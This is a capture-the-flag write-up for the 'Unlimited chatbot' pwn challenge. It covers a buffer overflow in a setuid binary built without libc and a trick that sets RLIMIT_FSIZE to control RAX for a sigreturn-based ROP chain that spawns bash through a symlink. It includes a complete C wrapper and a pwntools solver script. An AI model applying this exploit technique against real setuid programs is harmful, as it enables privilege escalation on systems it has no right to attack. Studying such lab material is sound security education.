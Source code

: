 # Unlimited chatbot

## Description

Welcome to the preview of the revolutionary ChatBot - AI powered!

Ask whatever you want, our ChatBot, trained on over 10 million samples, will answer with the technical solution to a problem you did not know you had!

## Solution

### Reversing

The binary is compiled without libc, either linked or static.
For maximal confusion, we can notice that the STDIN and STDOUT file descriptors are swapped. This doesn't change anything as they all point to the same pts.

The challenge is served over SSH, and the binary is a setuid binary. The owner is the same as the flag file. Therefore, our objective is to hijack the binary and escalate privileges.

The entrypoint calls an `init` function, and then a `bot` function. The first sets the real, effective and saved user ID to those of the owner, opens the `answers.txt` file, and creates a random name for the output file. The `bot` function prints out some stuff, and then asks the user a question to submit to the extremely advanced chatbot. At the very end of the function, the answer of the chatbot is written to previously generated file.

### Vulnerability

The vulnerability is very simple to spot: the user input has a (very large) buffer overflow.

### Exploitation

As we don't have libc, the challenge immediately becomes much harder. Moreover, there are no gadgets that allow to directly control RAX, making it hard to call arbitrary syscalls. We can note that the value of RAX that we get after gaining control is that of the final write call to file.

With the small hint of the challenge name (unlimited, seen many times when running `ulimit -a`) and a bit of thinking (and reading the manual), we can note that there is an interesting limit in Linux (`man getrlimit`):

> `RLIMIT_FSIZE`: This is the maximum size of a file, in bytes, that may be created by a process. If a write or truncate operation would cause this limit to be exceeded, SIGXFSZ shall be generated for the thread. If the thread is blocking, or the process is catching or ignoring SIGXFSZ, continued attempts to increase the size of a file from end-of-file to beyond the limit shall fail with errno set to [EFBIG].

We can abuse this to get an arbitrary value into RAX by setting the `RLIMIT_FSIZE` to a useful value, such as that of the `sigreturn` syscall, which allows us to control all the registers.

Then we can use another trick: when calling `execve`, as per manual, the kernel looks into the current working directory for the name passed as `argv[0]`. As we can write in `/tmp`, we can simplify pwning the challenge by using a symlink in the cwd that points to bash.

The final solution uses a small wrapper that sets the FSIZE limit (setting the limit directly from the python script kills it), and a solver script that uploads everything to the SSH instance and runs a simple rop chain that calls syscall (sigreturn) with a stack setup to execute `execve` with our symlink as `argv[0]`.

Wrapper:

```c
#include <sys/resource.h>
#include <unistd.h>

// SYS_rt_sigreturn doesn't appear to exist in sys/syscall.h
// (actually makes sense)
#define SYS_rt_sigreturn 0x0f

int main() {
  struct rlimit rl;
  rl.rlim_cur = SYS_rt_sigreturn;
  rl.rlim_max = SYS_rt_sigreturn;
  setrlimit(RLIMIT_FSIZE, &rl);

  execl("/home/chall/bot", "bot", NULL);
}
```

Solver:

```py
#!/usr/bin/env python3

from pwn import *
import os

HOST = args.HOST if args.HOST else "localhost"
PORT = int(args.PORT) if args.PORT else 1337
PWD = args.PWD if args.PWD else "chall"

if args.LOCAL:
    exe = ELF("/home/chall/bot")
    context.binary = exe


def conn(*a, **kw):
    if args.LOCAL:
        return process([os.getcwd() + "/exec"], stdin=PTY)
    else:
        return ssh(user="chall", host=HOST, port=PORT, password=PWD)


io = conn()


def main():
    # good luck pwning :)

    if args.LOCAL:  # pwn the challenge locally
        context.log_level = "debug"
        rop = ROP(exe)
        rop.raw(rop.syscall.address)

        frame = SigreturnFrame(kernel="amd64")
        frame.rax = 0x3B
        frame.rdi = next(exe.search(b"xt\x00"))
        frame.rsi = 0
        frame.rdx = 0
        frame.rip = rop.syscall.address
        frame.rsp = exe.bss(0x100)

        payload = b"A" * 64
        payload += rop.chain()
        payload += bytes(frame)
        io.sendlineafter(b"ChatBot?\n", payload)

        io.clean()
        io.sendline(b"cat /home/chall/flag.txt")
        io.clean(timeout=2)
    else:  # upload everything needed via ssh
        cwd = io.set_working_directory()
        # make sure cwd can be accessed by chall-pwned (needed by symlink!)
        io.system(f"chmod +x {cwd}")
        # Send wrapper
        io.put("exec")
        # Send self
        io.put("solve.py")
        io.system(f"chmod +x *")
        # We use the string "xt" found in the binary as a symlink to bash
        io.system(f"ln -s $(which bash) xt")
        log.info("Run `./solve.py LOCAL` to pwn!")

        # Run the LOCAL part of this exploit
        sh = io.process(["/bin/sh"], env={"PS1": ""})
        sh.sendline(b"./solve.py LOCAL")
        log.success(sh.recvregex(b"snakeCTF{.*}", timeout=5).decode().strip())


if __name__ == "__main__":
    main()
```
